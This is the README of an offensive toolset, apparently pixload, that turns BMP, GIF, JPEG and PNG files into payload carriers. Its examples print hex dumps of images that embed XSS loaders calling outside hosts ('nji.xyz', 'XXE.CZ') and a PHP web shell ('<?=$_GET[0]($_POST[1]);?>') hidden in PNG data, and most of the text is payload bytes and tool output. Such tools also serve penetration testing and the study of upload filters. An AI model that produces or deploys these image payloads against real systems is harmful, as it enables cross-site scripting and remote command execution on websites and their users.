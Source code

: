 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for creating/injecting payload into images.

## DEPENDS

The following Perl modules are required:

	- GD

	- ImageExif::Tool

	- String::HexConvert

	- URI

On Debian-based systems install these packages:

```sh
sudo apt install libgd-perl libimage-exiftool-perl libtext-string-hexconvert-perl liburi-perl
```

## TOOLS

### bmp-all.pl

Create payload as a legitim `BMP` image.

##### Usage

```sh
./bmp-all.pl [-payload 'STRING'] -output payload.bmp

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh

[>|        JPEG Tags ~ Payload Creator      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.bmp

[>] Injecting payload into payload.bmp
[✔] Payload was injected successfully

payload.bmp: PC bitmap, OS/2 1.x format, 1 x 1

00000000  42 4d 2f 2a 00 00 00 00  00 00 1a 00 00 00 0c 00  |BM/*............|
00000010  00 00 01 00 01 00 01 00  18 00 00 00 ff 00 2a 2f  |..............*/|
00000020  3d 31 3b 3c 73 63 72 69  70 74 20 73 72 63 2f 2f  |=1;<script src//|
00000030  6e 6a 69 2e 78 79 7a 3e  3c 2f 73 63 72 69 70 74  |nji.xyz></script|
00000040  3e 3b                                             |>;|
00000042
```

### gif-all.pl

Create payload as a legitim `GIF` image.

##### Usage

```sh
./gif-all.pl [-payload 'String'] -output payload.gif
```
##### Example

```sh
$ ./gif-all.pl -output payload.gif
[>|      GIF89a Image ~ Payload Creator     |<]

    https://github.com/chinarulezzz/pixload


[>] Prepare GIF file
[✔] GIF with payload successfully created
[✔] File saved to: payload.gif

payload.gif: GIF image data, version 89a, 10799 x

00000000  47 49 46 38 39 61 2f 2a  00 ff 00 2c 00 00 00 00  |GIF89a/*...,....|
00000010  2f 2a 0a 00 00 02 00 3b  2a 2f 3d 31 3b 3c 73 63  |/*.....;*/=1;<sc|
00000020  72 69 70 74 20 73 72 63  3d 2f 2f 6e 6a 69 2e 78  |ript src=//nji.x|
00000030  79 7a 3e 3c 2f 73 63 72  69 70 74 3e 3b           |yz></script>;|
0000003d
```

### jpg-all.pl

Create payload as a legitim `JPEG` image.
Also, permits to inject the payload into an existing image.

##### Usage

```sh
./jpg-all.pl [-payload 'STRING'] -output payload.jpg

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./jpg-all.pl -output payload.jpg
[>|        JPEG Tags ~ Payload Creator      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into comment tag
[✔] Payload was injected successfully

payload.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, comment: "<script src//nji.xyz></script>", baseline, precision 8, 32x32, components 3

00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 01 00 60  |......JFIF.....`|
00000010  00 60 00 00 ff fe 00 20  3c 73 63 72 69 70 74 20  |.`..... <script |
00000020  73 72 63 2f 2f 6e 6a 69  2e 78 79 7a 3e 3c 2f 73  |src//nji.xyz></s|
00000030  63 72 69 70 74 3e ff db  00 43 00 08 06 06 07 06  |cript>...C......|
00000040  05 08 07 07 07 09 09 08  0a 0c 14 0d 0c 0b 0b 0c  |................|
00000050  19 12 13 0f 14 1d 1a 1f  1e 1d 1a 1c 1c 20 24 2e  |............. $.|
00000060  27 20 22 2c 23 1c 1c 28  37 29 2c 30 31 34 34 34  |' ",#..(7),01444|
00000070  1f 27 39 3d 38 32 3c 2e  33 34 32 ff db 00 43 01  |.'9=82<.342...C.|
00000080  09 09 09 0c 0b 0c 18 0d  0d 18 32 21 1c 21 32 32  |..........2!.!22|
00000090  32 32 32 32 32 32 32 32  32 32 32 32 32 32 32 32  |2222222222222222|
*
...
000002a0  28 a0 0f ff d9                                    |(....|
000002a5
```

### png-js.pl

Create `XSS` payload `<script src=//your_host></script>` as a legitim `PNG` image.

##### Usage

```sh
./png-js.pl -domain xxe.cz -output payload.png

Note: Only 3 characters domains supported.
```

##### Example

```sh
[>| PNG IDAT chunks ~ JS Payload Generator |<]
    
    https://github.com/chinarulezzz/pixload


[>] Starting GZDeflate bruteforce

    Domain: XXE.CZ
    Payload: <SCRIPT SRC=//XXE.CZ></script>

    It will take some time ~ please wait :)

[>] Bruteforcing tld
[✔] TLD successfully bruteforced

[>] Bruteforcing domain
[✔] 3rd 'E' character bruteforced
[✔] 2nd 'X' character bruteforced
[✔] 1st 'X' character bruteforced

[>] Trying to apply PNG filters
[✔] PNG filters done

[>] Generating output file
[✔] PNG with payload successfully generated
    Hex payload: 3c534352495054205352433d2f2f5858452e435a3e3c2f7363726970743e
[✔] File saved to: payload.png

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 65 49 44 41 54 48 89  |...+.....eIDATH.|
00000040  63 64 60 f8 3c 53 43 52  49 50 54 20 53 52 43 3d  |cd`.<SCRIPT SRC=|
00000050  2f 2f 58 58 45 2e 43 5a  3e 3c 2f 73 63 72 69 70  |//XXE.CZ></scrip|
00000060  74 3e 03 43 54 93 fa 4c  8d f9 57 ff 9e b9 19 f6  |t>.CT..L..W.....|
00000070  8a e5 a5 97 87 e2 a9 5b  b7 ad 9e bc e7 71 75 4c  |.......[.....quL|
00000080  90 d0 0d 62 11 58 e3 67  cc 30 0a 46 c1 28 18 05  |...b.X.g.0.F.(..|
00000090  a3 60 14 8c 82 51 30 0a  46 c1 28 18 06 00 00 84  |.`...Q0.F.(.....|
000000a0  a6 19 02 20 9f 31 8e 00  00 00 00 49 45 4e 44 ae  |... .1.....IEND.|
000000b0  42 60 82                                          |B`.|
000000b3
```

### png-php.pl

Create `PHP` payload as a legitim `PNG` image.

##### Usage

```sh
./png-php.pl -output payload.png
```

##### Example

```sh
[>| PNG IDAT chunks  ~  PHP Payload Creator |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] PNG with payload successfully generated
[✔] File saved to: payload.png

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 5c 49 44 41 54 48 89  |...+.....\IDATH.|
00000040  63 5c 3c 3f 3d 24 5f 47  45 54 5b 30 5d 28 24 5f  |c\<?=$_GET[0]($_|
00000050  50 4f 53 54 5b 31 5d 29  3b 3f 3e 58 80 81 81 c1  |POST[1]);?>X....|
00000060  73 5e 37 93 fc 8f 8b db  7e 5f d3 7d aa 27 f7 f1  |s^7.....~_.}.'..|
00000070  e3 c9 bf 5f ef 06 7c b2  30 30 63 d9 59 11 3f 8b  |..._..|.00c.Y.?.|
00000080  61 14 8c 82 51 30 0a 46  c1 28 18 05 a3 60 14 8c  |a...Q0.F.(...`..|
00000090  82 51 30 9c 00 00 d7 41  18 02 db 3e 41 55 00 00  |.Q0....A...>AU..|
000000a0  00 00 49 45 4e 44 ae 42  60 82                    |..IEND.B`.|
000000aa
```

## LICENSE

WTFPL

## LEGAL DISCLAIMER

The author does not hold any responsibility for the bad use
of this tool, remember that attacking targets without prior
consent is illegal and punished by law.

